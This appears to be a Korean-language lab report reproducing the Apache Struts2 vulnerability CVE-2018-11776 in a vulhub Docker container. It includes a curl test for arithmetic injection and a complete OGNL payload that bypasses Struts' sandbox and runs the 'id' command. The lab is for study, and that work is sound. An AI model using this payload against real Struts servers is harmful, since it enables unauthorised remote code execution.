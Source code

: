 # CVE-2018-11776 Report (S2-057)

## 1. 개요
Apache Struts2의 URL 매핑 처리 취약점을 이용하여 OGNL 인젝션을 통해 원격 코드 실행(RCE)이 가능한 취약점입니다.

## 2. 환경 구축 방법

- 베이스 이미지: `vulhub/struts2:2.3.34-showcase`
- 추가 구성:
  - `struts-actionchaining.xml` 파일을 덮어쓰기하여 취약한 설정 적용
- 포트 매핑: `8080:8080`
- 사용한 파일:
  - `docker-compose.yml`
  - `Dockerfile`
  - `struts-actionchaining.xml`

## 3. 실행 방법

```bash
docker-compose up
```
브라우저 접속: 
```
http://localhost:8080/showcase/
```


## 4. 취약점 PoC
### 4.1 계산식 인젝션 테스트 
```
curl -i "http://localhost:8080/struts2-showcase/%24%7B233*233%7D/actionChain1.action"
```
결과: HTTP Location 헤더에 /54289/ 리다이렉트 → OGNL 인젝션 성공

###
4.2 원격 코드 실행 (RCE) 테스트
```
curl -i "http://localhost:8080/struts2-showcase/%24%7B(%23dm=%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct=%23request['struts.valueStack'].context).(%23cr=%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ou=%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a=%40java.lang.Runtime%40getRuntime().exec('id')).(%40org.apache.commons.io.IOUtils@toString(%23a.getInputStream()))%7D/actionChain1.action"
```

결과: 서버에서 id 명령어 결과 출력 → RCE 성공


## 5. 캡처 화면

### 5.1 브라우저에서 Showcase 접속

![Showcase](./images/showcase.png)

### 5.2 233*233 계산 결과(54289) 출력

![Calculation 54289](./images/calc.png)

### 5.3 id 명령어 실행 결과 출력

![RCE UID Result](./images/rce-uid.png)

### 5.4 curl 요청 화면

![Basic Curl](./images/curl.png)
